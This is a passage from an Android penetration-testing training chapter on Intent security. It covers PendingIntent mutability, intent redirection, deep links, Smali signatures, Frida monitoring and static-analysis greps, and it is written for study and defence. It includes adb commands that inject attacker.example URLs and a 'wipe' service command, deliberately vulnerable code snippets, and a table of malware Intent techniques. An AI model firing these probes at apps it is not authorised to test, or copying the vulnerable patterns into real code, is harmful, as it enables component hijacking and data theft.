// keep the component explicit, so the ONLY thing the filler-in can add is the reply text.
PendingIntent reply = PendingIntent.getBroadcast(this, requestCode,
        new Intent(this, ReplyReceiver.class).setAction(ACTION_REPLY),
        PendingIntent.FLAG_UPDATE_CURRENT | PendingIntent.FLAG_MUTABLE);
```

And on the **receiving** side — if your app accepts a `PendingIntent` from another app, you have the
one good identity primitive in the whole Intent world; use it:

```java
PendingIntent supplied = intent.getParcelableExtra("callback");
if (supplied == null) return;
// System-stamped, not message-carried. This is trustworthy.
String creator = supplied.getCreatorPackage();
int creatorUid = supplied.getCreatorUid();
if (!isTrusted(creator, creatorUid)) return;
```

### 5.5 Implicit Intents that leak

The mirror image of everything above: not what you receive, but what you send.

| Anti-pattern | What leaks | Fix |
|---|---|---|
| `sendBroadcast(new Intent("com.example.TOKEN_REFRESHED").putExtra("token", t))` | The token, to **every** app with a matching receiver | `LocalBroadcastManager`, or `setPackage(getPackageName())`, or a `signature` permission on the broadcast |
| `startActivity(new Intent(ACTION_SEND).putExtra(EXTRA_TEXT, secret))` | The secret, to whichever app the user picks — or is tricked into picking | Explicit component, or accept the chooser as a deliberate user action |
| `sendStickyBroadcast(...)` | Persists; readable by anything that later registers | Deprecated since API 21; report its presence |
| An implicit Intent whose **extras** carry PII, used only for a UI hand-off | PII to a chooser candidate | `setPackage` |
| An `ACTION_VIEW` on a `content://` URI with `FLAG_GRANT_READ_URI_PERMISSION` and no target | A grant on your data to an app the user picks | Use `Intent.createChooser` deliberately, or set the component |

> **🔍 Pentester's Note**
> The detection is a Frida hook on `ContextImpl.sendBroadcast` and `Activity.startActivity` that
> prints every Intent whose component **and** package are both null, together with its extra keys.
> `scripts/intent-monitor.js` in this chapter does exactly that, and additionally flags any extra
> that is itself an `Intent`.

### 5.6 Deep-link data reaching dangerous sinks

Once an attacker-controlled URI is inside the app, the finding is decided by where it goes. The sinks
worth grepping for, and who owns the detail:

| Sink | Consequence | Detail lives in |
|---|---|---|
| `WebView.loadUrl(uri)` | Arbitrary page in the app's WebView, with its cookies and any JS bridges | Chapter 43 — WebView |
| `WebView` + `addJavascriptInterface` | Remote code reachable from a link | Chapter 43 |
| An HTTP client, unvalidated host | SSRF from the device; token exfiltration if headers are attached | Chapters 35/36 |
| An OAuth `redirect_uri` or token endpoint | Code/token theft | [45-OAuth](../45-OAuth/README.md) |
| `File`/`FileOutputStream` built from a path segment | Path traversal into the private data dir | Chapter 33 — Storage |
| `Class.forName` / reflection on a class name from the URI | Arbitrary class instantiation | [40-Obfuscation](../40-Obfuscation/README.md) shows why the names are readable |
| A SQL `WHERE` clause | SQL injection in a local database | [27-ContentProviders](../27-ContentProviders/README.md) |
| `Runtime.exec` | Command execution as the app | Rare and critical |

### 5.7 OWASP MASVS / MASTG mapping

| Control | Requirement | This chapter |
|---|---|---|
| **MASVS-PLATFORM-1** | "The app uses IPC mechanisms securely" | The whole chapter. Redirection, exported components, implicit Intents, `PendingIntent` mutability |
| **MASVS-PLATFORM-3** | "The app uses WebViews securely" | §5.6, where a deep link reaches a WebView |
| **MASVS-CODE-4** | "The app validates and sanitises all untrusted inputs" | Deep-link URI validation, §5.2's fix |
| **MASVS-AUTH-1/-3** | Authentication and session handling | §3.11 verified App Links as the anti-hijack control for auth redirects |
| **MASTG-TEST-0027 / -0028** (deep links, IPC endpoints) | Test procedures | §7 in full |
| **MASTG-TEST-0024** (app permissions / exported components) | Test procedure | §7.6 reachability discipline; declaration audit in [32-Manifest](../32-Manifest/README.md) |

See [71-OWASP-Mobile](../71-OWASP-Mobile/README.md) for how these identifiers map into a report.

### 5.8 How malware uses Intents

| Technique | Mechanism |
|---|---|
| **Persistence** | A receiver for `BOOT_COMPLETED`, `MY_PACKAGE_REPLACED`, `USER_PRESENT` — every one of them an Intent |
| **Overlay timing** | Registering for `ACTION_SCREEN_ON`, package-added broadcasts, or using `getRunningTasks` substitutes to know when to draw an overlay |
| **Accessibility-driven automation** | Not Intents, but the *targets* are found by resolving Intents for the victim app's screens |
| **Interception** | A high-priority filter on a custom action or an ordered broadcast, plus `abortBroadcast()` |
| **Waking dormant apps** | `FLAG_INCLUDE_STOPPED_PACKAGES` on a broadcast, to trigger another app's receiver |
| **Dropper hand-off** | `ACTION_INSTALL_PACKAGE` / `ACTION_VIEW` on an APK `content://` URI |
| **C2 over deep links** | Commands encoded into a custom-scheme URI delivered by SMS or a push payload |

### 5.9 How a forensic analyst uses Intents

Intents leave traces in three places, and all three are worth pulling in an incident:

| Artefact | Command | What it tells you |
|---|---|---|
| The resolver tables | `adb shell dumpsys package <pkg>` | Every filter the app declared, including SDK-injected ones the developer did not know about |
| Recent Activity starts | `adb shell dumpsys activity activities`, `dumpsys activity recents` | Which components ran, and — in `ActivityRecord` dumps — the Intent that started them, extras included |
| The broadcast history | `adb shell dumpsys activity broadcasts` | Historical broadcast records with their Intents; often the only record that a malicious broadcast was sent |
| App Link state | `pm get-app-links` / `dumpsys package domain-preferred-apps` | Whether a competing app had claimed a domain at the time |
| Logcat | `adb logcat` | `Permission Denial` lines record attempted, denied starts — an attacker's failed reconnaissance |

---

## 6. Reverse Engineering Perspective

### 6.1 What an Intent looks like in JADX output

The Java you get back from JADX is close to what the developer wrote, because Intent code is
straight-line API calls with no compiler magic. The recognisable shapes:

```java
// The router — the shape you are hunting
Intent intentExtra = (Intent) getIntent().getParcelableExtra("next");
if (intentExtra != null) {
    startActivity(intentExtra);
}
```

```java
// The deep-link entry point
Uri data = getIntent().getData();
if (data != null && "myapp".equals(data.getScheme())) {
    String target = data.getQueryParameter("url");
    this.webView.loadUrl(target);
}
```

```java
// The blank cheque
PendingIntent activity = PendingIntent.getActivity(this, 0, new Intent(), 134217728);
```

That last one is worth dwelling on: **JADX prints flags as decimal integers.** `134217728` is
`0x08000000` is `FLAG_UPDATE_CURRENT` — and, crucially, `FLAG_IMMUTABLE` (`0x04000000` = `67108864`)
is **not** in it. Keep this conversion table to hand, because you will do it constantly:

| Decimal you will see | Hex | Constant |
|---|---|---|
| `1` | `0x00000001` | `FLAG_GRANT_READ_URI_PERMISSION` |
| `2` | `0x00000002` | `FLAG_GRANT_WRITE_URI_PERMISSION` |
| `64` | `0x00000040` | `FLAG_GRANT_PERSISTABLE_URI_PERMISSION` |
| `128` | `0x00000080` | `FLAG_GRANT_PREFIX_URI_PERMISSION` |
| `33554432` | `0x02000000` | `PendingIntent.FLAG_MUTABLE` |
| `67108864` | `0x04000000` | `PendingIntent.FLAG_IMMUTABLE` / `Intent.FLAG_ACTIVITY_CLEAR_TOP` is `0x04000000` too — **context decides** |
| `134217728` | `0x08000000` | `PendingIntent.FLAG_UPDATE_CURRENT` |
| `268435456` | `0x10000000` | `Intent.FLAG_ACTIVITY_NEW_TASK` (and `PendingIntent.FLAG_CANCEL_CURRENT`) |
| `1073741824` | `0x40000000` | `Intent.FLAG_ACTIVITY_NO_HISTORY` (and `PendingIntent.FLAG_ONE_SHOT`) |
| `-2147483648` | `0x80000000` | `FLAG_ACTIVITY_BROUGHT_TO_FRONT` |

> **⚠️ Warning**
> `Intent` flags and `PendingIntent` flags share numeric values and are **different namespaces**.
> `67108864` in a `PendingIntent.getActivity` call is `FLAG_IMMUTABLE`; the same number in
> `intent.addFlags(...)` is `FLAG_ACTIVITY_CLEAR_TOP`. Decide which namespace you are in *before*
> decoding, or you will write a report claiming an app sets `FLAG_IMMUTABLE` on an Intent.

### 6.2 The Smali signature of intent redirection

This is the single most valuable recognition pattern in the chapter. Below is the real bytecode
produced by compiling the four-line vulnerable `onCreate` from §5.2 — verified with
`d8` and `dexdump` on the host, not reconstructed from memory:

```text
# measured — dexdump -d of the compiled RedirectorActivity
0000: invoke-super  {v1, v2}, Landroid/app/Activity;.onCreate:(Landroid/os/Bundle;)V
0003: invoke-virtual {v1}, L…/RedirectorActivity;.getIntent:()Landroid/content/Intent;
0006: move-result-object v2
0007: const-string  v0, "next"
0009: invoke-virtual {v2, v0}, Landroid/content/Intent;.getParcelableExtra:(Ljava/lang/String;)Landroid/os/Parcelable;
000c: move-result-object v2
000d: check-cast    v2, Landroid/content/Intent;
000f: if-eqz        v2, 0014
0011: invoke-virtual {v1, v2}, L…/RedirectorActivity;.startActivity:(Landroid/content/Intent;)V
0014: invoke-virtual {v1}, L…/RedirectorActivity;.finish:()V
0017: return-void
```

In baksmali form, which is what you will actually be reading:

```smali
.method protected onCreate(Landroid/os/Bundle;)V
    .registers 3

    invoke-super {p0, p1}, Landroid/app/Activity;->onCreate(Landroid/os/Bundle;)V

    invoke-virtual {p0}, Lcom/pentest/deputy/RedirectorActivity;->getIntent()Landroid/content/Intent;
    move-result-object p1

    const-string v0, "next"

    invoke-virtual {p1, v0}, Landroid/content/Intent;->getParcelableExtra(Ljava/lang/String;)Landroid/os/Parcelable;
    move-result-object p1

    # THIS LINE IS THE SIGNATURE.
    check-cast p1, Landroid/content/Intent;

    if-eqz p1, :cond_finish

    invoke-virtual {p0, p1}, Lcom/pentest/deputy/RedirectorActivity;->startActivity(Landroid/content/Intent;)V

    :cond_finish
    invoke-virtual {p0}, Lcom/pentest/deputy/RedirectorActivity;->finish()V
    return-void
.end method
```

**`getParcelableExtra` is declared to return `Landroid/os/Parcelable;`.** Any code that wants an
`Intent` out of it *must* emit a `check-cast … Landroid/content/Intent;` immediately afterwards. That
two-instruction pair —

```text
invoke-virtual {…}, Landroid/content/Intent;->getParcelableExtra(Ljava/lang/String;)Landroid/os/Parcelable;
check-cast vX, Landroid/content/Intent;
```

— is an **unambiguous, obfuscation-resistant marker that an app is extracting an Intent from an
Intent.** Grep for it across every smali file in a target and you have your redirection candidate
list in one command. §8.3 gives the exact invocation.

The API-33 typed overload `getParcelableExtra(String, Class<T>)` changes the shape slightly — the
return type is `Ljava/lang/Object;` and the cast is still emitted — so search for both.

### 6.3 `PendingIntent` in Smali

```smali
# MUTABLE and blank — the critical finding
new-instance v1, Landroid/content/Intent;
invoke-direct {v1}, Landroid/content/Intent;-><init>()V
const/4 v2, 0x0
invoke-static {p0, v2, v1, v2}, Landroid/app/PendingIntent;->getActivity(Landroid/content/Context;ILandroid/content/Intent;I)Landroid/app/PendingIntent;
```

Read it right to left: the last `v2` is the flags argument and it is `0x0`. No `FLAG_IMMUTABLE`. The
`Intent` was constructed with the no-argument `<init>()V`, so it has no component. That is the
signature.

```smali
# FIXED — component set, immutable
new-instance v1, Landroid/content/Intent;
const-class v3, Lcom/example/MyReplyActivity;
invoke-direct {v1, p0, v3}, Landroid/content/Intent;-><init>(Landroid/content/Context;Ljava/lang/Class;)V
const v2, 0x4000000        # FLAG_IMMUTABLE
invoke-static {p0, v0, v1, v2}, Landroid/app/PendingIntent;->getActivity(...)Landroid/app/PendingIntent;
```

The two-argument `Intent-><init>(Landroid/content/Context;Ljava/lang/Class;)V` constructor is a
strong positive signal: an Intent built that way is explicit from birth.

### 6.4 What obfuscation does — and does not do

| Element | Survives R8/ProGuard? | Why |
|---|---|---|
| `android.content.Intent` and its method names | **Yes, always** | Framework classes are on the boot classpath and are never renamed |
| `getParcelableExtra`, `startActivity`, `PendingIntent.getActivity` | **Yes** | Same |
| Extra **key strings** (`"next"`, `"url"`) | Usually yes | They are `const-string` values; R8 does not rename string literals. String *encryption* by a commercial packer will hide them |
| Action strings and custom scheme names | Usually yes | Same; and they must match the manifest, which is not obfuscated |
| The **component class names in the manifest** | **Yes** | The manifest and the DEX are renamed consistently by R8; the manifest always names the *final* class |
| Your own router class's name | No | Renamed to `a.b.c` |
| The control flow around the redirect | Partially | Commercial obfuscators flatten it; the `check-cast` pair survives flattening because it is a type operation |

> **🔍 Pentester's Note**
> Intent code is close to the most obfuscation-resistant code in an Android app, because both ends of
> it are pinned: the framework API cannot be renamed, and the manifest must name real classes. This
> is why manifest-plus-`check-cast` grepping works on heavily obfuscated apps where nothing else
> does. See [40-Obfuscation](../40-Obfuscation/README.md) for what a packer changes and what it
> cannot.

### 6.5 Finding the filters when the code is unreadable

You do not need to read code at all to enumerate the reachable surface. The platform will tell you:

```bash
# host — every filter the platform recorded for a package, obfuscation-proof
adb shell "dumpsys package com.example.target" | sed -n '/Activity Resolver Table/,/^Key Set Manager/p'
```

That output (measured format shown in §4.5) is generated from the **parsed manifest**, so it reflects
merged library manifests, resolved resource references, and the platform's own interpretation. It is
strictly better evidence than anything you read out of the APK.

---

## 7. Dynamic Analysis

### 7.1 The reconnaissance sequence

Run these in order on any target. Each answers one question and takes seconds.

```bash
# host — 1. What does the platform think this app declares?
adb shell "dumpsys package com.example.target" > target-dumpsys.txt

# host — 2. Which components would receive a given implicit Intent, device-wide?
adb shell "cmd package query-activities -a android.intent.action.VIEW -d 'https://app.example.com/x'"
adb shell "cmd package query-receivers  -a com.example.ACTION_SYNC"
adb shell "cmd package query-services   -a com.example.ACTION_BIND"

# host — 3. Which single component would win?
adb shell "pm resolve-activity --brief -a android.intent.action.VIEW -d 'https://app.example.com/x'"

# host — 4. Deep-link exclusivity (see 3.11 for the version split)
adb shell "pm get-app-links com.example.target"        # API 31+
adb shell "pm get-app-link  com.example.target"        # API 30 and below
adb shell "dumpsys package domain-preferred-apps"      # API 30 and below, full table

# host — 5. Watch the platform's decisions as you probe
adb logcat -c
adb logcat | grep -Ei 'Permission Denial|SecurityException|ActivityNotFound|not exported|requires.*permission'
```

`scripts/intent-surface-map.py` automates steps 1–3 and adds the analysis; `scripts/appstate-linkcheck.sh`
automates step 4 including the version detection.

### 7.2 `am start` — every argument you will need

The full syntax is in `cheatsheet.md`. The parts that matter and are got wrong:

```bash
# host — explicit component (bypasses ALL matching; needs the component to be exported)
adb shell "am start -n com.example.target/.RouterActivity"

# host — implicit, exactly as a browser would send it
adb shell "am start -a android.intent.action.VIEW \
    -c android.intent.category.BROWSABLE \
    -d 'https://app.example.com/open/1?next=https://attacker.example/'"

# host — restrict resolution to one package without naming the class
adb shell "am start -a android.intent.action.VIEW -d 'myapp://x' com.example.target"

# host — extras of every type am supports
adb shell "am start -n com.example.target/.RouterActivity \
    --es   text  'hello' \
    --esn  nullstring \
    --ez   flag  true \
    --ei   count 7 \
    --el   big   9000000000 \
    --ef   ratio 1.5 \
    --eu   link  'https://attacker.example/' \
    --ecn  comp  com.example.target/.SecretActivity \
    --esa  list  'a,b,c' \
    --eia  nums  '1,2,3'"

# host — flags
adb shell "am start -n com.example.target/.RouterActivity \
    -f 0x10000000 \
    --grant-read-uri-permission --grant-prefix-uri-permission \
    --activity-clear-top"

# host — broadcasts and services
adb shell "am broadcast -a com.example.ACTION_SYNC --es token AAA -n com.example.target/.SyncReceiver"
adb shell "am startservice -n com.example.target/.SyncService --es cmd wipe"
adb shell "am start-foreground-service -n com.example.target/.SyncService"
```

> **⚠️ Warning — three `am` traps, all measured**
> 1. **Quote for two shells.** `adb shell` hands your string to the device's `sh`. `*`, `;`, `&`,
>    `|`, `$` and `?` are all metacharacters *there*. Wrap the entire command in one set of quotes on
>    the host and use a second set inside for arguments. §3.4 and §3.10 show both failures.
> 2. **There is no Parcelable extra.** You cannot nest an Intent with `am`. §5.2.
> 3. **`--ecn` gives you a `ComponentName` extra, not a nested Intent.** It is genuinely useful — many
>    routers take a `ComponentName` extra rather than an `Intent` — but it is not a substitute.

### 7.3 Making the platform explain its resolution

`FLAG_DEBUG_LOG_RESOLUTION` (`0x00000008`) asks `system_server` to log its matching decision. It is
the closest thing to a debugger for the resolver.

```bash
# host
adb logcat -c
adb shell "am start --debug-log-resolution -a android.intent.action.VIEW -d 'myapp://route?to=x'"
adb logcat -d | grep -i -A20 'Resolving type'
```

On a device where the platform build strips those log statements you get nothing, which is itself
worth knowing before you spend twenty minutes on it. The fallback that always works is
`cmd package query-activities`, which reports the match value (§3.6) — that number tells you which
test the winning filter passed on, and by elimination which one your failing candidate failed.

### 7.4 Frida — logging every Intent a target receives

The full script is [`scripts/intent-monitor.js`](scripts/intent-monitor.js); it hooks the receiving
side (`Activity.onCreate`, `onNewIntent`, `BroadcastReceiver.onReceive`, `Service.onStartCommand`,
`onBind`) and the sending side (`startActivity*`, `sendBroadcast*`, `startService`, `bindService`,
`PendingIntent.getActivity/getBroadcast/getService`), and — the part that matters for this chapter —
**walks every extra and recursively dumps any extra that is itself an `Intent`.**

```bash
# host
frida -U -f com.example.target -l scripts/intent-monitor.js
# or attach to a running process
frida -U -n com.example.target -l scripts/intent-monitor.js
```

The core of the recursion, so you understand what you are running:

```javascript
// scripts/intent-monitor.js (excerpt — the nested-Intent walk)
function dumpExtras(intent, depth) {
  var b = intent.getExtras();
  if (b === null) return;
  var keys = b.keySet().toArray();
  for (var i = 0; i < keys.length; i++) {
    var k = keys[i].toString();
    var v = b.get(k);                       // triggers lazy unparcel — see 3.1
    if (v === null) { continue; }
    if (v.$className === "android.content.Intent") {
      // THE FINDING: an Intent inside an Intent.
      console.log(pad(depth) + "  [NESTED INTENT] extra '" + k + "':");
      dumpIntent(Java.cast(v, Intent), depth + 1);
    } else {
      console.log(pad(depth) + "  " + k + " = " + v);
    }
  }
}
```

> **🔬 Under the Hood**
> `b.get(k)` forces the `Bundle` to unparcel. If the sender embedded a `Parcelable` whose class does
> not exist in the target, this throws `BadParcelableException` — inside your hook, in the app's
> process. The shipped script wraps each `get` in a `try`/`catch` and reports the key that failed,
> because a key that *cannot* be unparcelled is itself interesting: it means the sender expected a
> class the receiver does not have, which usually means you are looking at the wrong receiver.

### 7.5 Frida — the redirection taint tracker

`scripts/intent-monitor.js` also implements a minimal taint mode (`--enable-taint` via
`rpc.exports.setTaint(true)` or the `TAINT` constant at the top): it records the identity hash of
every Intent returned from `getParcelableExtra` and flags it if that same object later reaches
`startActivity`, `startService`, `sendBroadcast` or `setResult`. That is the *dynamic* proof of the
static pattern from §6.2, and it produces a one-line finding:

```text
[!!] REDIRECTION  com.example.target/.RouterActivity
     Intent taken from extra 'next' is being started:
     Intent { cmp=com.example.target/.DebugActivity (has extras) flg=0x40000001 }
     grant flags: READ|PERSISTABLE
```

[27-ContentProviders](../27-ContentProviders/README.md) §5.4 ships a narrower version of this hook
aimed at `setResult` and URI grants; the two are complementary — run 27's when you are chasing a
grant, and this one when you are mapping the primitive.

### 7.6 Reachability discipline — the rule that keeps findings alive

This is the most important paragraph in the section.

**`adb shell` runs as UID 2000 (`shell`) and holds capabilities an installed app does not.** It can
start components an ordinary app cannot, it holds a handful of `signature|privileged` permissions,
and on many builds it is exempt from background-start restrictions. A component you reached with
`am start` may be completely unreachable from a real attacker.

The procedure that survives a developer's push-back:

1. Reach it from `adb shell`. This proves the component **exists and does something**. Record the
   output. This is step one, not the finding.
2. **Reach it from an unprivileged app.** Build a two-activity APK that does nothing but
   `startActivity` the target. Install it. Run it. Nothing else proves reachability.
3. Confirm the negative case too: point the same app at a component you *know* is non-exported and
   show the `Permission Denial` in logcat. That demonstrates your harness would have detected a
   failure, which is what makes step 2 credible.
4. Record the permission position: `adb shell "dumpsys package com.example.target" | grep -i permission`
   and resolve every `protectionLevel` — a `normal`-level custom permission is not a control, since
   any app can request and receive it ([23-Permissions](../23-Permissions/README.md)).

`labs/lab-01-intent-redirection.md` ships exactly this harness, including the negative control.

> **⚠️ Warning — measured environment limitation**
> The device used for this chapter (Redmi, MIUI 12.5, Android 11) **refuses `adb install`**:
>
> ```text
> # measured
> $ adb install -r deputy.apk
> Failure [INSTALL_FAILED_USER_RESTRICTED: Install canceled by user]
> ```
>
> MIUI gates USB installation behind a developer-options toggle that requires a signed-in Xiaomi
> account. `adb shell pm install` from `/data/local/tmp` fails the same way. Every APK-building step
> in this chapter's labs was therefore verified to **compile, dex, align and sign** on the host, and
> the resulting bytecode was inspected with `dexdump` (§6.2) — but the two-app exploit was **not**
> executed on this device. Where a lab step could not be measured, the lab says so in place. If your
> device is stock AOSP, a Pixel, or an emulator, none of this applies and the labs run end to end.
> This is exactly the class of environment fact worth recording: a lab that silently assumed
> installation works would waste an afternoon of a reader's time.

### 7.7 Package visibility — why your view is wider than the app's

From `targetSdk` 30, `queryIntentActivities` and `getInstalledPackages` return a **filtered** list
unless the caller declares `<queries>` or holds `QUERY_ALL_PACKAGES`. `adb shell cmd package
query-activities` runs as shell and is **not** filtered.

The consequence for your report: a list of components that could receive an implicit Intent, produced
from shell, is the *platform's* view. The target app may not be able to see, and therefore may not be
able to send to, some of them. When you claim "app A can send this Intent to app B", check A's
`<queries>` declaration first. `scripts/intent-surface-map.py` prints a warning whenever it produces a
result set on API 30+ without being told the sender package, for exactly this reason.

### 7.8 Other tools, and what each is actually good for

| Tool | Use it for | Do not use it for |
|---|---|---|
| **Drozer** | `app.activity.info`, `app.activity.start`, `app.broadcast.send`, `app.service.start` — fast enumeration and firing from an *app* context (drozer's agent is an ordinary app, so it is a better reachability oracle than `adb shell`) | Anything requiring a nested `Parcelable` — drozer's `--extra` syntax has the same limits as `am` |
| **Objection** | `android intents launch_activity`, `android hooking watch class android.content.Intent` | Deep resolution analysis |
| **MobSF** | Bulk manifest extraction across many APKs | Deciding severity; it flags every exported component |
| **Burp Suite** | Only where a deep link drives an HTTP request | Intent traffic itself — Intents are not HTTP and never appear in a proxy |
| **jadx** | Reading the sink | Enumerating filters — use `dumpsys` |
| **Logcat** | The platform's own verdict | Anything the platform does not log |

### 7.9 What was measured, and what was not

Stated plainly, because the difference decides how much weight a claim can carry.

| Claim | Status |
|---|---|
| `match` values `0x108000` / `0x208000` / `0x508000` / `0x608000` and their meanings | **Measured**, Android 11 / API 30 |
| MIME matching counts (`text/plain` 14, `text/*` 14, `*/*` 25, `image/png` 18, `application/pdf` 11) | **Measured** |
| Eleven components on the device declare `*/*` for `ACTION_SEND` | **Measured** (a made-up MIME type resolved to 11) |
| Multiple `<data>` elements combine as independent sets (Chrome's four schemes × three types in one filter) | **Measured** via `dumpsys package com.android.chrome` |
| `pm get-app-links` does not exist below API 31; `pm get-app-link` and `dumpsys package domain-preferred-apps` are the API-30 equivalents | **Measured** — `Unknown command: get-app-links` |
| YouTube's App Link domains sit at `Status: ask` on this device, including an OAuth redirect host | **Measured** |
| A bare `*` wildcard host in Google Docs' domain list | **Measured** |
| `am` supports no `Parcelable` extra type | **Measured** from the device's own `am` help output |
| `adb shell` re-parses the command line, breaking `*/*` and `intent:…;end` without inner quotes | **Measured** — both failure modes reproduced |
| `pm get-app-link` and `dumpsys package domain-preferred-apps` returning *different* states for one package | **Measured** — see the note in §3.11 |
| The `getParcelableExtra` → `check-cast Landroid/content/Intent;` bytecode signature | **Measured** — compiled with `d8`, disassembled with `dexdump` |
| `INSTALL_FAILED_USER_RESTRICTED` on this MIUI build | **Measured** |
| `scripts/intent-surface-map.py` output (all modes) | **Measured** — run against installed packages on this device |
| `scripts/intent-monitor.js` behaviour | **Measured** — attached to `com.miui.calculator` and `com.android.chrome` on this device; the `RECEIVED`/`SENT`/`registerReceiver` output in §7.4 is real |
| Both example APKs building, dexing, aligning and signing | **Measured** — `aapt2` + `javac` + `d8` + `zipalign` + `apksigner`, build-tools 35.0.1, `android-35` |
| The `ActivityStarter` export check being a UID comparison | **Documented** — AOSP source, paraphrased as "shape of the check" |
| `PendingIntent` fill-in semantics and the API 31 mandate | **Documented** — AOSP `PendingIntent`/`Intent.fillIn` and the Android 12 behaviour-change notes |
| `targetSdk` 34 restrictions on implicit Intents to non-exported components | **Documented** — the device is API 30 and cannot exercise it |
| Verified-App-Link exclusivity end to end | **Documented** — no domain under our control was available to host `assetlinks.json` |
| The two-app redirection exploit executing on-device | **Not measured** — installation blocked; see §7.6 |

---

## 8. Static Analysis

### 8.1 The extraction sequence

```bash
# host
apktool d -f target.apk -o work/          # manifest + smali + resources
jadx -d out target.apk                    # Java-ish sources
aapt2 dump xmltree --file AndroidManifest.xml target.apk > tree.txt   # platform-accurate manifest
```

The manifest audit itself — export defaults, `targetSdk` matrix, permission `protectionLevel`s — is
[32-Manifest](../32-Manifest/README.md)'s job, and its `scripts/manifest-audit.py` does it properly.
Run that first. This chapter's static work starts where that ends: with a list of exported components
and the question "what do they do with the Intent?"

### 8.2 Finding the entry points

```bash
# host — every filter, with its component, from the decoded manifest
grep -n -A12 '<intent-filter' work/AndroidManifest.xml

# host — deep links specifically
grep -n 'android:scheme' work/AndroidManifest.xml
grep -n 'BROWSABLE'      work/AndroidManifest.xml
grep -n 'autoVerify'     work/AndroidManifest.xml

# host — wildcard hosts and permissive MIME
grep -n 'android:host="\*"'      work/AndroidManifest.xml
grep -n 'android:mimeType="\*/\*"' work/AndroidManifest.xml

# host — path matching that is looser than it looks
grep -n 'pathPrefix\|pathPattern\|pathAdvancedPattern\|pathSuffix' work/AndroidManifest.xml
```

### 8.3 Finding redirection — the greps that matter

```bash
# host — Java sources: the primitive
grep -rn "getParcelableExtra" out/sources/ | grep -i intent

# host — Smali: the obfuscation-proof version (section 6.2)
grep -rn -A3 'getParcelableExtra(Ljava/lang/String;)Landroid/os/Parcelable;' work/smali* \
  | grep -B1 'check-cast .*Landroid/content/Intent;'

# host — the API 33 typed overload
grep -rn 'getParcelableExtra(Ljava/lang/String;Ljava/lang/Class;)' work/smali*

# host — the string/URI flavour, which is web-reachable
grep -rn "Intent.parseUri\|parseUri(Ljava/lang/String;I)" out/sources/ work/smali*
grep -rn "getQueryParameter" out/sources/ | head -50

# host — the sends that complete the bug
grep -rn "startActivity\|startActivityForResult\|startService\|bindService\|sendBroadcast\|setResult" \
  out/sources/ | wc -l
```

The last grep will return hundreds of hits in any real app, which is the point: **the grep that finds
the bug is the one for the *source* of the Intent, not the sink.** Start from `getParcelableExtra`
and `parseUri`, then walk forward.

### 8.4 Finding `PendingIntent` problems

```bash
# host — every creation site
grep -rn "PendingIntent\.get\(Activity\|Broadcast\|Service\|ForegroundService\)" out/sources/

# host — creations that are NOT immutable
grep -rn "PendingIntent\.get" out/sources/ | grep -v "FLAG_IMMUTABLE\|67108864"

# host — explicit mutability, on a modern app: every hit is a deliberate decision to review
grep -rn "FLAG_MUTABLE\|33554432" out/sources/

# host — smali
grep -rn 'Landroid/app/PendingIntent;->get' work/smali*
```

Then, for each hit, answer the three-question test from §5.4. `scripts/intent-surface-map.py --pending`
does the first pass mechanically.

### 8.5 Grepping the sinks

```bash
# host — deep-link data reaching a WebView
grep -rn "loadUrl\|loadDataWithBaseURL\|addJavascriptInterface" out/sources/

# host — reflection driven by a URI
grep -rn "Class\.forName\|loadClass" out/sources/

# host — file paths built from Intent data
grep -rn "getStringExtra\|getData()" out/sources/ | grep -i "file\|path\|dir"
```

### 8.6 Gradle and source-level analysis

With source access, three files decide half the answers:

| File | What to read |
|---|---|
| `app/build.gradle(.kts)` | `targetSdk` — decides the `PendingIntent` mandate, the export mandate, and the implicit-Intent rules (§3.12) |
| `app/src/main/AndroidManifest.xml` | The *source* filters, before library merging |
| `app/build/outputs/logs/manifest-merger-*-report.txt` | **Which library injected which component.** The single most useful build artefact for this chapter, and most developers have never opened it |

### 8.7 Why automated tools produce false positives here

| Tool behaviour | Why it is wrong | What you do instead |
|---|---|---|
| "Exported activity found" on every filtered component | Export is the *precondition*, not the finding | Answer the two questions in §5.2's warning |
| "Intent redirection" on any `getParcelableExtra` | Most are not Intents, and many that are get validated | Read the validation; check for a component allow-list |
| "Mutable PendingIntent" on `targetSdk <= 30` code that sets a component | A mutable `PendingIntent` with an explicit component is often fine | Check whether the component is set |
| "Deep link found" with no verification check | An unverified `autoVerify` is the finding, and it is not in the APK | Measure with `pm get-app-links` / `pm get-app-link` |
| Missing dynamically registered receivers entirely | They are not in the manifest | Hook `registerReceiver` at runtime |

---

## 9. Examples

Five graded examples. Every one is real code that compiles; the shipped files under
[`examples/`](examples/) are the full, annotated versions, and [`examples/README.md`](examples/README.md)
maps each file to the section that discusses it.

### 9.1 Simple — send an Intent four ways and watch resolution change

```java
// examples/intent-field-semantics.java — the four addressing modes
// Build: see examples/README.md. Runs inside any Activity.

// (1) Fully implicit. The system picks. A chooser may appear.
Intent implicit = new Intent(Intent.ACTION_VIEW, Uri.parse("https://example.com/a"));
startActivity(implicit);

// (2) Package-restricted. Resolution still happens, but only within one app.
Intent restricted = new Intent(Intent.ACTION_VIEW, Uri.parse("https://example.com/a"));
restricted.setPackage("com.android.chrome");
startActivity(restricted);

// (3) Fully explicit by ComponentName. No matching at all.
Intent explicit = new Intent(Intent.ACTION_VIEW, Uri.parse("https://example.com/a"));
explicit.setComponent(new ComponentName("com.android.chrome",
        "com.google.android.apps.chrome.Main"));
startActivity(explicit);

// (4) Explicit by class, within your own app. The idiomatic form.
startActivity(new Intent(this, DetailActivity.class));
```

Confirm each one from the shell before you believe it:

```bash
# host — (1) how many candidates?
adb shell "cmd package query-activities -a android.intent.action.VIEW -d 'https://example.com/a'" | head -1
# host — (3) does the named component even exist and is it exported?
adb shell "cmd package query-activities -a android.intent.action.VIEW -d 'https://example.com/a'" \
  | grep -E 'name=|exported='
```

**What to take from it:** modes (2), (3) and (4) are all "the fix" for different situations. Mode (1)
is the only one an attacker can interpose on.

### 9.2 Intermediate — a deep-link handler done wrong and done right

```xml
<!-- WRONG — wildcard host, no autoVerify, custom scheme alongside https -->
<activity android:name=".DeepLinkActivity" android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:scheme="https"/>
        <data android:scheme="myapp"/>
        <data android:host="*"/>
    </intent-filter>
</activity>
```

That filter accepts `https://anything`, `myapp://anything`, and — because schemes and hosts are
independent sets (§3.4) — every cross combination. The Activity behind it:

```java
// WRONG — trusts the URI completely
Uri u = getIntent().getData();
webView.loadUrl(u.getQueryParameter("url"));      // arbitrary page, in our WebView
```

The corrected pair:

```xml
<!-- RIGHT — one scheme, named hosts, exact paths, autoVerify -->
